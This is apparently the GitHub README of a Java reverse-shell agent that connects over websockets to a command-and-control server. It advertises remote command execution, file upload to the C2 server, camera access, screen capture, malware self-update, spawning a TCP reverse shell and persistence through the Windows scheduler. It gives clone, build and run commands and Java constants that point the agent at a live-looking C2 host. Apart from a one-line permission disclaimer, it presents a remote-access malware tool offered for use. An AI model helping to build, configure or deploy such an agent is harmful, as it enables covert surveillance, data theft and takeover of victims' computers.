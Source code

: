 # Java Reverse Shell with Websockets

This Java project implements a reverse shell that connects to a command and control server using websockets.

## Features

- Remote Command Execution  
- Upload Files to C2 Server
- Play rick roll on target computer
- Access camera
- Screen Capture
- Update Malware From C2 Server
- Spawn a TCP Reverse Shell
- Persistence via Windows Scheduler  

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Java Development Kit (JDK) installed
- Maven installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent.git
    ```

2. Navigate to the project folder:

    ```bash
    cd ReverseShellWebSocketAgent
    ```

3. Build the project using Maven:

    ```bash
    mvn clean install
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, run the following command:

```bash
java -jar target/reverseShell-1.0.1-jar-with-dependencies.jar
```
## Configuration
Configure the reverse shell by editing the src/main/com/mtattab/reverseshell/util/constants file. Update the following properties:
```java
public static final String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients" ; // c2 websocket uri
public static final String SERVER_HTTP_URI = "https://c2-server.mtattab.com" ; // c2 uri for uploading files to s3
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 JAVA Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)  
[C2 C# .NET Agent (RECOMMENDED)](https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet)

## Contributing
Contributions are welcome! 
Please make a pull request for new features